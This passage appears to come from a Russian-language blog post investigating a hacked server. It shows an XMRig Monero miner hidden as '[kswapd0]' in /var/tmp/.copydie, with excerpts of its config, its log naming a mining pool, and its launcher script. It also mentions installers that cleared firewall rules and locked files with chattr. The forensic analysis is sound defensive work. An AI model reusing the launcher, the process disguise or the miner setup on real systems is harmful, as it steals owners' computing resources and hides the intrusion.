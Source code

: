 >XMRig is a high performance, open source, cross platform RandomX, KawPow, CryptoNight, AstroBWT and [GhostRider](https://github.com/xmrig/xmrig/tree/master/src/crypto/ghostrider#readme) unified CPU/GPU miner and [RandomX benchmark](https://xmrig.com/benchmark). Official binaries are available for Windows, Linux, macOS and FreeBSD.

Так, поехали дальше, у нас еще одна директория имеется:

```console
root@rescue /mnt/var/tmp/.copydie # ls
 config_background.json  '[kswapd0]'  '[kswapd0].log'  '[kswapd0].pid'  '[kswapd0].sh'
```

В общем, и тут майнер:

```console
root@rescue /mnt/var/tmp/.copydie # head -n5 config_background.json
```
```json
{
    "api": {
        "id": null,
        "worker-id": null
    },
```
```console
root@rescue /mnt/var/tmp/.copydie # head -n10 \[kswapd0\].log
```
```text 
 * ABOUT        XMRig/6.2.3-mo2 gcc/7.3.1
 * LIBS         libuv/1.8.0 
 * HUGE PAGES   supported
 * 1GB PAGES    unavailable
 * CPU          Intel(R) Core(TM) i7-6700 CPU @ 3.40GHz (1) x64 AES
                L2:1.0 MB L3:8.0 MB 4C/8T
 * MEMORY       54.8/62.5 GB (88%)
 * DONATE       1%
 * ASSEMBLY     auto:intel
 * POOL #1      elastic.zzhreceive.top:1414 coin monero
``` 

```console
root@rescue /mnt/var/tmp/.copydie # head -n10 \[kswapd0\].sh
```
```bash 
#!/bin/bash
if ! pidof [kswapd0] >/dev/null; then
  nice /var/tmp/.copydie/[kswapd0] $*
else
  echo "Monero miner is already running in the background. Refusing to run another one."
  echo "Run \"killall xmrig\" or \"sudo killall xmrig\" if you want to remove background miner first."
fi
```

Вообще, чистить машину от этой гадости я смысла никакого не вижу. 

Если рассмотреть инсталлеры, код которых я привел выше (**ar.sh**, **ai.sh**), то станет ясно, что он загадил всю машину своими следами, обнулил правила фаерволла и выставил для ряда файлов атрибуты неизменяемости (chattr). 
